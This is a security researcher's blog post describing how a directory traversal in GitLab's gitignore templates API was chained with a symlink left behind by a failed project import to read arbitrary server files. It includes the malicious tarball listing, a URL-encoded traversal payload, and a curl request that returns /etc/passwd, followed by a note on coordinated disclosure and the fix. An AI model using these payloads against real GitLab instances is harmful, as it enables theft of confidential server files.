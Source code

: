 ```yaml
---
title:  "Chaining multiple low-impact bugs to arbitrary file read in GitLab"
categories: security
---
```


Since around August 2018, I began to read the source code of GitLab and test it
over and over. The time pays me back, during the first several months I found
some critical bugs (mentioned in my previous posts). Unsurprisingly, it became
harder and harder to find new high-impact and easily exploitable bugs as the
application was growing with the hunters to be more and more robust.

## Exploit the unexploitable

### Unexplotable directory traversal
In one of my posts, I described that I was using some static analysis techniques
based on Rubocop to find potential exploitable function calls in the source
code. The tool is very trivial and false alarms are inevitable, so I just
ignored those I thought were unexploitable every time I check the output of my
Rubocop. One of them are like this:

``` ruby
module Gitlab
  module Template
    module Finders
...
        def read(path)
          File.read(path)
        end
...
```
This interesting method is calling `File#read` which is a potential command
execution vulnerability if the argument is controllable. (Mentioned in
[this post](/security/CVE-2018-18649-Gitlab-RCE/)). Or even if it's not
fully controllable, the function could still be used to read local files.

So how much can we control the argument? The call stack goes up to the templates
API:

``` ruby
      get "templates/#{template_type}/:name" do
        finder = TemplateFinder.build(template_type, nil, name: declared(params)[:name])
        new_template = finder.execute

        render_response(template_type, new_template)
      end
```

Where `params[:name]` is controllable, then it's passed to `GitignoreTemplate`
then to `GlobalTemplateFinder` finally. I'm not going to paste too much code
snippets here, anyone who is interested in the implementation can visit
[the repository](https://gitlab.com/gitlab-org/gitlab-ce/tree/v11.5.2) for
details.

Finally I figured out that the logic of the `TemplateFinder` is:
1. Concatenate user-inputted `name` with an extension (`.gitignore`) and prefix
them with a category name (`Global`)
2. Find the constructed path in `Rails.root`
3. If `File.exist?(path)`, then call `File.read(path)` and returns the content
through the API

For example:

``` shell
$ curl https://gitlab.com/api/v4/templates/gitignores/SVN
{"name":"SVN","content":".svn/\n"}

$ cat gitlab-ce/vendor/gitignore/Global/SVN.gitignore
.svn/
```

Is there a directory traversal here? Yes.
GitLab ships some gitignore templates outside the Global directory

``` shell
$ curl https://gitlab.com/api/v4/templates/gitignores/%2e%2e%2fScala%2ea
{"name":"Scala","content":"*.class\n*.log\n"}

$ cat gitlab-ce/vendor/gitignore/Scala.gitignore
*.class
*.log
```

Note: the last 2 characters `%2e a` (`.a`) is used to feed the `format`
part of the request in Rails applications. Otherwise `./Scala` would be
treated as the request format.

Finally, we have a crippled directory traversal issue which has several
limits, making it a worthless bug. It's hard to believe that there is any
confidential information in a GitLab instance being stored in some `.gitignore`
files. A simple `find` command proved my assumption, this is an unexploitable
bug.

### Exploit it
But wait, although GitLab doesn't ship any fruitful `blah.gitignore` files
itself, we might could ask the application to create some on the fly. Symbolic
links are always good friends, if we can create a symbolic link in the
file-system and point it to a confidential file, then the directory traversal
becomes exploitable.

The second issue is in project import, I had known it for some time since I was
testing CVE-2018-14364. But I even didn't recognize it as a "bug" due to its
low impact (none impact to be accurate). That when someone tries to import a
tarball which contains any protected (not writable) symbolic links, the import
fails and leaves the temporary directory not purged. The directory has a
`SecureRandom` part in its path so it would not be used again like I did in
[CVE-2018-14364](https://blog.nyangawa.me/security/CVE-2018-14364-Gitlab-RCE/).

Example:

``` shell
$ tar tvf project.tar.gz

-rw-r--r-- asakawa/asakawa 431 2018-12-04 13:16 project.bundle
-rw-r--r-- asakawa/asakawa 1799 2018-12-04 19:10 project.json
dr-xr-xr-x asakawa/asakawa    0 2018-12-04 13:22 uploads/
lrwxrwxrwx asakawa/asakawa    0 2018-12-04 13:22 uploads/link.gitignore -> /etc/passwd
-rw-r--r-- asakawa/asakawa    5 2018-12-04 13:16 VERSION
```

After the import fails, the `link.gitignore` is left alone in the file-system at
somewhere like.

``` shell
/var/opt/gitlab/gitlab-rails/shared/tmp/project_exports/root/interesting-36f24022b707434f2f060c4a3559216f/8cef47205d875e9e9528a844ce20e092/uploads/link.gitignore -> /etc/passwd
```

The information is leaked in the import error page by GitLab itself, actually I
think there's nothing to blame here. Giving as much as potentially useful
information to the user can save a lot of time from blindly debugging.

So, by combining the 2 unexplotable bugs, I get a convincing exploit:

``` shell
$ URL="http://10.26.0.3"
$ PAYLOAD=$(echo "../../../public/uploads/../shared/tmp/project_exports/root/interesting-36f24022b707434f2f060c4a3559216f/8cef47205d875e9e9528a844ce20e092/uploads/link" | sed 's|\.|%2e|g' | sed 's|\/|%2f|g')
$ curl $URL/api/v4/templates/gitignores/$PAYLOAD%2ea

{"name":"link","content":"root:x:0:0:root:/root:/bin/bash\ndaemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin\nbin:x:2:2:bin:/bin:/usr/sbin/nologin\nsys:x:3:3:sys:/dev:/usr/sbin/nologin\nsync:x:4:65534:sync:/bin:/bin/sync\ngames:x:5:60:games:/usr/games:/usr/sbin/nologin\nman:x:6:12:man:/var/cache/man:/usr/sbin/nologin\n
...
```

### Response from GitLab
GitLab has a decent security team, they took the issue seriously and continually
provided updates about the issue and the fix.

They have disclosed [the issue](https://gitlab.com/gitlab-org/gitlab-ce/issues/54857)
in their issue tracker after one month from the fix. I totally believe the value
of transparency and
[GitLab's handbook](https://about.gitlab.com/handbook/values/#transparency)
has a very clear description on transparency. I think it makes sense for
the collaboration between the community of security researchers and the
applications. OSS(open source softwares) give full transparency of their source
code to the community so that the researchers could do much better on improving
the quality of the applications than spending too much time to reconnoitering a
black box and leaving those potentially critical deeply hidden security flaws
undiscovered.
